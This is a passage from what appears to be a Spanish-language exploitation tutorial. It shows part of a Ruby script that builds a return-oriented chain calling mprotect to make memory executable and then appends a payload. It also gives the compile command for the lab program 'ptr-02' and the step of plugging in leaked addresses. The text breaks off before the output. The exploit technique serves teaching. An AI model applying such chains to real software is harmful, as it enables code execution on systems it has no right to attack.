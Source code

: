 ```ruby
    0x7,
    addr_mprotect,
    addr_chain + 0x60
].pack(">Q*")

# Generamos el exploit.
print chain + payload.force_encoding("ASCII-8BIT")
```



Procedemos ahora a ejecutar el programa, a reemplazar los valores, y a ejecutar nuestro exploit:

```bash
g++ ptr-02.cpp -o ptr-02 -ldl
```

![run](img/run.png)



Completamos en el script con los valores provistos:

```ruby
# Completar con la dirección de mprotect.
addr_mprotect = 0x7fc316907ae0

# Completar con la dirección de chain.
addr_chain = 0x7ffce8087ac0
```



Procedemos entonces a ejecutar el script, enviando la salida a `/tmp/ptr-02-input`. Si hacemos ésto, deberíamos poder observar algo como lo siguiente:
